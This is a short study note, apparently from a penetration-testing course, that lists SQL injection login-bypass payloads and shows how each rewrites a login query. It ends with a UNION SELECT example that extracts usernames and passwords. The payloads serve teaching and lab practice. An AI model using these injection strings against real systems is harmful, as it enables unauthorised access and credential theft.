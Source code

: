 ```sql
" OR 1=1
```

```sql Best Flag
'OR 1=1-- 
```

```sql
'OR 1=1;-- 
```
```ad-info
SELECT * FROM logins
WHERE username='tom'
AND password = '=='OR 1=1;--==';
```
```sql
"OR 1=1--
```
```sql
admin' AND 1;--
```

```sql
admin' or '1'='1
```

```sql
admin' OR '1'='1'-- -
```
```ad-info
SELECT * FROM logins 
WHERE username='tom' 
AND password = '==admin' OR '1'='1'-- -==';
```
```sql
1'or'1'='1
```
```ad-info
SELECT * FROM logins
WHERE username='tom' 
AND password = '==1'or'1'='1==';
```

```sql
admin');--
```
### [[SQLMAP - Injection Types#Union query-based\|Union Clause]]

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

```bash
ERROR 1222 (21000): The used SELECT statements have a different number of columns
```
#### Solution

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
